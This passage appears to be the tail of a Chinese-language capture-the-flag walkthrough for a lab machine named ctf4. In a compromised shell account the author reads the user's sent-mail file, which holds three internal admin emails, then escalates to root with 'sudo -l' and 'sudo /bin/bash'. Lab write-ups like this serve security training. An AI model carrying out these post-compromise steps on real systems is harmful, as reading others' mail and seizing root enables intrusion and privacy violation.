296584 -rw-------  1 500 506 3475 2009-03-10 INBOX.Sent
296588 -rw-------  1 500 506    0 2009-03-09 INBOX.Trash
296590 -rw-------  1 500 506   36 2009-03-09 .subscriptions
[dstevens@ctf4 mail]$ cat INBOX.Sent 
From dstevens@ctf4.sas.upenn.edu  Mon Mar 09 10:49:49 2009
Received: from 192.168.0.50
        (SquirrelMail authenticated user dstevens)
        by 192.168.0.6 with HTTP;
        Mon, 9 Mar 2009 10:49:49 -0400 (EDT)
Message-ID: <5cdfb96d2c2a9d3252e3197cefd45e5b.squirrel@192.168.0.6>
In-Reply-To: <e7075b8be1b7db3648d2acce17f21087.squirrel@192.168.0.6>
References: <e7075b8be1b7db3648d2acce17f21087.squirrel@192.168.0.6>
Date: Mon, 9 Mar 2009 10:49:49 -0400 (EDT)
Subject: Re: Server setup
From: "Don Stevens" <dstevens@localhost>
To: jdurbin@ctf4.sas.upenn.edu
Reply-To: dstevens@localhost
User-Agent: SquirrelMail/1.4.17
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal
Status: R
X-Keywords:                            
Content-Length: 464
X-IMAPbase: 1236610189 0000000002
X-UID: 1

Great work James, let me know as soon as the other features we want are
all installed.

> Hey Don,
>
>   I think I got the server pretty much set up.  I just have to make some
> more adjustments.  Unfortunately I couldn't get RoundCube installed
> because our version of PHP is too low.  I'll send more updates as I make
> them.
>
> --
> James Durbin
> Webmaster
> Prof. Ehks Data Research Center
>


-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center

From dstevens@ctf4.sas.upenn.edu  Mon Mar 09 10:52:25 2009
Received: from 192.168.0.50
        (SquirrelMail authenticated user dstevens)
        by 192.168.0.6 with HTTP;
        Mon, 9 Mar 2009 10:52:25 -0400 (EDT)
Message-ID: <b9b632688feb3dd9856fd7e40d381785.squirrel@192.168.0.6>
Date: Mon, 9 Mar 2009 10:52:25 -0400 (EDT)
Subject: Server setup
From: "Don Stevens" <dstevens@localhost>
To: users@localhost
Reply-To: dstevens@localhost
User-Agent: SquirrelMail/1.4.17
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal
X-UID: 2
Status: R
X-Keywords:                                                                       
Content-Length: 297

Hello all,

  the server is up and running now and should be able to support most of
our needs.  Don and I are still working on installing a few more patches
and configuring things.  Let us know if you have any problems.  Thanks!

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center


From dstevens@ctf4.sas.upenn.edu  Tue Mar 10 13:00:53 2009
Received: from 192.168.0.50
        (SquirrelMail authenticated user dstevens)
        by 192.168.0.6 with HTTP;
        Tue, 10 Mar 2009 13:00:53 -0400 (EDT)
Message-ID: <ba931026af86ac41413e520d5017eea3.squirrel@192.168.0.6>
Date: Tue, 10 Mar 2009 13:00:52 -0400 (EDT)
Subject: Calendar Online!
From: "Don Stevens" <dstevens@localhost>
To: users@localhost
Reply-To: dstevens@localhost
User-Agent: SquirrelMail/1.4.17
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal
X-UID: 3
Status: R
X-Keywords:                                                                       
Content-Length: 369

Hello all,

  I'd like to announce that the new calendaring software is online.  You
all have accounts that you can log in with, they have the same username
and password as your machine accounts.  Feel free to log into the new
system at http://192.168.0.6/calendar.  Let me know if you have any
problems.

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center
```

## 提权

```bash
[dstevens@ctf4 mail]$ sudo -l
Password:
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 mail]$ sudo /bin/bash
[root@ctf4 mail]# whoami
root
```
显然这台靶机没有我想的复杂，直接sudo提权就行了
